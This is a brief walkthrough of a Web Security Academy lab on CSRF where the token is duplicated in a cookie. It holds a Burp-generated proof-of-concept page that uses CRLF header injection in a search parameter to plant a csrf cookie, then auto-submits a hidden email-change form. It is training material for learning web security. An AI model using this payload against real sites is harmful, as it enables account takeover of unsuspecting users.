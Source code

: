 # Lab: CSRF where token is duplicated in cookie

This is the same as lab 5, but we are actually setting the csrf token via the search SetCookie header and sending the request to change the email address using the token we set.

```<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acfe1f0f1ee03000c068f52100dc0054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="supersecure" />
    </form>
    <img src="https://acfe1f0f1ee03000c068f52100dc0054.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=supersecure" onerror="document.forms[0].submit()">
  </body>
</html>```